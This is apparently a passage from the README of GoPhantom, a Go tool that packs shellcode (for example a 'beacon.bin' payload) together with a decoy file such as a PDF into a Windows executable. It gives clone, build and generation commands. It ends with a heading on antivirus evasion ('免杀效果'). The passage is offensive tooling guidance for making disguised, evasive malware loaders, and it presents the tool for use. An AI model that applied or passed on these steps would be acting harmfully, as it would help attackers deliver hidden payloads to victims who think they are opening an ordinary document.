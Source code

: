 ## 安装与使用 (Installation & Usage)

### 环境要求
* Go 1.19 或更高版本
* 支持交叉编译到Windows平台

### 快速开始

1. 克隆项目仓库：
   ```bash
   git clone https://github.com/watanabe-hsad/GoPhantom.git
   cd GoPhantom
   ```

2. 准备测试文件：
   - 将shellcode文件(如`beacon.bin`)放入项目目录
   - 准备诱饵文件(如`document.pdf`)

3. 生成加载器：
   ```bash
   # 源码方式
   go run generator.go -decoy "info.txt" -payload "calc_x64.bin" -out "hello.exe"
   
   # 二进制方式
   ./GoPhantom-v1.3 -decoy "info.txt" -payload "calc_x64.bin" -out "hello.exe"
   ```

### 使用模式

**简单模式 (默认)**
程序自动生成随机Salt，每次生成唯一加载器：
```bash
./GoPhantom-v1.3 -decoy "info.txt" -payload "calc_x64.bin" -out "hello.exe"
```

**可复现模式 (高级)**
指定固定Salt，实现可复现构建：
```bash
export GOPHANTOM_SALT="your-base64-salt-here"
./GoPhantom-v1.3 -decoy "info.txt" -payload "calc_x64.bin" -out "reproducible.exe"
```

## 演示截图 (Demo Screenshots)

### 生成过程
![生成过程](image/img_1.png)

### 免杀效果
